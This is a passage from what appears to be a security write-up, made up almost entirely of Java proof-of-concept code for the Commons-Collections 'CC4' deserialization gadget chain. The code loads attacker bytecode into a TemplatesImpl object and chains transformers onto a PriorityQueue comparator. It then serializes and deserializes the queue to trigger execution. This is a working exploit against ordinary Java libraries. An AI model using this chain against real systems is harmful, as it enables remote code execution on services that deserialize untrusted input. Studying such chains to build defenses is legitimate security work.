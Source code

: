 ```java

        TemplatesImpl obj = new TemplatesImpl();
        Class clazz = obj.getClass();
        Field _name = clazz.getDeclaredField("_name");
        Field _bytecode = clazz.getDeclaredField("_bytecodes");
        Field _tfactory = clazz.getDeclaredField("_tfactory");
        _name.setAccessible(true);
        _bytecode.setAccessible(true);
        _tfactory.setAccessible(true);
        _name.set(obj, "h3rmesk1t");
        _bytecode.set(obj, targetCode);
        _tfactory.set(obj, new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{obj})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);

        PriorityQueue priorityQueue = new PriorityQueue(2);
        priorityQueue.add(1);
        priorityQueue.add(2);
        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(priorityQueue, transformingComparator);

        try {
            // 序列化
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(priorityQueue);
            objectOutputStream.close();

            // 反序列化
            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC4();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
![undefined](https://p1.ssl.qhimg.com/t012797cc7d4e6c569b.png "undefined")

